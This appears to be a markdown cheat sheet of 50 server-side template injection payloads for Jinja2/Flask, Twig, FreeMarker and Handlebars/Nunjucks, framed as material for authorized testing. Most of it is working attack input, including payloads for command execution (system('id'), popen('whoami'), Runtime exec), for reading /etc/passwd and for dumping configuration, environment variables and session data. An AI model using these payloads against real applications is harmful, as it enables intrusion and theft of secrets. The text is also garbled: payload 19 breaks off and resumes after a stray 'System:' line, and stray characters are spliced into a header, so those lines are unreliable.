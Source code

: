 ```yaml
---
title: "Server-side template injection payload"
tags:
  - SSTI_injection
---
```


Many template engine (e.g., Jinja2, Twig, FreeMarker) exists different context (e.g., Flask, Symfony).

Server-Side Template Injection (SSTI) is a vulnerability where attackers inject malicious code into template engines (e.g., Jinja2, Twig, FreeMarker, Handlebars) used by web applications to dynamically generate content. By injecting template expressions, attackers can execute arbitrary code, access server-side data, or manipulate application logic. Below is a list of 50 example SSTI payloads tailored to various template engines. These payloads are designed to test for vulnerabilities in controlled environments.

**Warning**: These payloads are for educational and ethical testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical. Always test responsibly in a legal, authorized environment.

### SSTI Payload Characteristics
- Payloads target template engine syntax, which varies by framework (e.g., {% raw %} `{{ }}` {% endraw %} for Jinja2, `{% %}` for Twig, `${}` for FreeMarker).
- Common goals include executing code, accessing sensitive data (e.g., `request`, `config`), or testing for template rendering.
- Payloads often exploit template engine features like variable access, loops, or function calls.

The payloads below cover popular template engines and include generic tests, specific engine syntax, and advanced exploitation techniques. They assume user input is directly embedded into a template (e.g., `Hello {{user_input}}`). Adapt payloads based on the suspected template engine.

### SSTI Payloads
#### Generic Detection Payloads
These test for SSTI by attempting simple operations to detect template execution.

{% raw %}
1. `{{7*7}}` - Tests if `49` is rendered (Jinja2, Handlebars, etc.).
2. `${7*7}` - Tests for FreeMarker or Velocity template engines.
3. `<% 7*7 %>` - Tests for ERB (Ruby) or JSP template engines.
4. `{{1+1}}` - Tests basic arithmetic rendering.
5. `${{1+1}}` - Tests for Nunjucks or Handlebars.
6. `{% debug %}` - Tests for Twig debug output.
7. `{{ config }}` - Attempts to dump configuration (Jinja2, Flask).
8. `{{ request }}` - Accesses request object (Jinja2, Flask).
9. `<% out.println(7*7) %>` - Tests JSP execution.
10. `{{ ''.__class__ }}` - Tests for Python class access (Jinja2).
{% endraw %}

#### Jinja2/Flask (Python) Payloads
Jinja2 is common in Flask applications, using {% raw %} `{{ }}` {% endraw %} for expressions.

{% raw %}
11. `{{ ''.__class__.__mro__ }}` - Dumps method resolution order.
12. `{{ self.__init__.__globals__ }}` - Accesses global namespace.
13. `{{ ''.__class__.__base__ }}` - Accesses base class.
14. `{{ config.items() }}` - Dumps Flask configuration.
15. `{{ get_flashed_messages.__globals__ }}` - Accesses Flask globals.
16. `{{ ''.__class__.__subclasses__() }}` - Lists all subclasses.
17. `{{ ''.__class__.__base__.__subclasses__()[59].__init__.__func__.__globals__['sys'].modules['os'].system('id') }}` - Executes system command (Linux).
18. `{{ request.application.__self__.__dict__ }}` - Dumps application context.
19. `{{ url_for.__globals__['os'].p ո
{% endraw %}

System: .popen('whoami') }}` - Attempts to execute `whoami` command (Jinja2).
{% raw %}
20. `{{ ''.join(os.listdir('/')) }}` - Lists root directory contents.
{% endraw %}

#### Twig (PHP) Payloads
Twig is used in PHP frameworks like Symfony, using {% raw %} `{{ }}` {% endraw %} and {% raw %} `{% %}`禁止

{% raw %}
21. `{{ 1+1 }}` - Tests arithmetic evaluation.
22. `{{ app.request }}` - Accesses request object.
23. `{% include '/etc/passwd' %}` - Attempts to read sensitive file.
24. `{{ _context }}` - Dumps template context.
25. `{{ dump(app) }}` - Dumps application object.
26. `{% set foo = system('id') %}{{ foo }}` - Attempts command execution.
27. `{{ constant('PHP_OS') }}` - Retrieves OS information.
28. `{% debug %}` - Outputs debug information.
29. `{{ app.session.user }}` - Accesses session user data.
30. `{% filter phpinfo %}1{% endfilter %}` - Attempts to display PHP info.
{% endraw %}

#### FreeMarker (Java) Payloads
FreeMarker is used in Java applications, using `${}` for expressions.

{% raw %}
31. `${7*7}` - Tests arithmetic evaluation.
32. `${.api}` - Dumps FreeMarker API context.
33. `${.dataModel}` - Accesses data model.
34. `${request}` - Accesses HTTP request object.
35. `${.builtIns?keys}` - Lists built-in functions.
36. `${.getClass().forName("java.lang.Runtime").getMethod("exec","java.lang.String").invoke(null,"whoami")}` - Attempts command execution.
37. `${user}` - Accesses user object.
38. `${.vars}` - Dumps all variables in scope.
39. `${System.getProperty("os.name")}` - Retrieves OS name.
40. `${.main?string}` - Dumps main template data.
{% endraw %}

#### Handlebars/Nunjucks (JavaScript) Payloads
Used in Node.js applications, using {% raw %} `{{ }}` {% endraw %} or {% raw %} `{{{ }}}`{% endraw %} .

{% raw %}
41. `{{ 7 * 7 }}` - Tests arithmetic evaluation.
42. `{{ global.process }}` - Accesses Node.js process object.
43. `{{{ global }}}` - Dumps global scope.
44. `{{ require('os').userInfo() }}` - Attempts to retrieve user info.
45. `{{ process.env }}` - Dumps environment variables.
46. `{{ __dirname }}` - Retrieves current directory.
47. `{{{ this }}}` - Dumps current context.
48. `{{ require('fs').readdirSync('.') }}` - Lists current directory files.
49. `{{ global.process.argv }}` - Accesses command-line arguments.
50. `{{ Object.keys(global) }}` - Lists global object keys.
{% endraw %}

### Notes
- **Template Engine Detection**: Start with generic payloads (e.g., `{{7*7}}`) to identify the engine, then use engine-specific payloads.
- **Context-Specific**: Payloads must match the template engine’s syntax and available objects (e.g., `request` in Flask, `app` in Twig).
- **Encoding**: For web inputs, payloads may need URL encoding (e.g., `{{` becomes `%7B%7B`).
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize user inputs, use safe template rendering (e.g., auto-escaping), and avoid embedding raw user input in templates.

